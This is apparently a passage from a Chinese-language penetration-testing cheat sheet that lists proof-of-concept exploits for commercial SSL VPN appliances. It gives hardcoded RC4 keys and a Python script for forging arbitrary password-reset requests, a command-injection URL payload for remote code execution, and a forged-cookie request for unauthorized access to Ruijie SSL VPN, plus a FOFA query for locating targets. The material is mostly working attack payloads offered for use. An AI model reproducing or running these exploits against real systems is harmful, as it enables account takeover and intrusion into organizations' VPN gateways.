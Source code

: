 - **任意密码重置**
    - POC | Payload | exp
        ```
        某VPN加密算法使用了默认的key,攻击者构利用key构造重置密码数据包从而修改任意用户的密码
        利用:需要登录账号

        M7.6.6R1版本key为20181118

        M7.6.1key为20100720

        POST /por/changepwd.csp

        sessReq=clusterd&sessid=0&str=RC4_STR&len=RC4_STR_LEN(脚本计算后结果)
        ```
        ```py
        from Crypto.Cipher import ARC4
        from binascii import a2b_hex

        def myRC4(data, key):
            rc41= ARC4.new(key)
            encrypted =rc41.encrypt(data)
            return encrypted. encode('hex')

        def rc4_decrpt_hex(data, key):
            rc41= ARC4. new(key)
            return rc41. decrypt(a2b_hex(data))

        key= '20100720'
        data = r',username-TARGET_USERNAME, ip-127.0.0.1,grpid-1, pripsw-suiyi , newpsw=TARGET PASSWORD,'
        print myRC4(data, key)
        ```

- **RCE**
    - 影响版本
        * SSLM7.6.6(20181120)
        * SSLM7.6.6R1(20181225)

    - 相关文章
        - [深信服vpn逆向（挖洞）](https://www.cnblogs.com/unicodeSec/p/12326356.html)

    - POC | Payload | exp
        ```
        https://x.com/por/checkurl.csp?url=http://127.0.0.1;sleep${IFS}5;&retry=0&timeout=1
        ```

**锐捷 SSL VPN**
- **锐捷 SSL VPN 越权访问漏洞**
    - FOFA: icon_hash="884334722" || title="Ruijie SSL VPN"
    - 相关文章
        - [锐捷SSL VPN 越权访问漏洞](https://mp.weixin.qq.com/s/acU0CNhyNkKl99o1Iv3N-w)
    - POC | Payload | exp
        ```
        GET /cgi-bin/main.cgi?oper=getrsc HTTP/1.1
        Cookie: UserName=admin; SessionId=1; FirstVist=1; Skin=1; tunnel=1
        ```
        UserName 参数为已知用户名
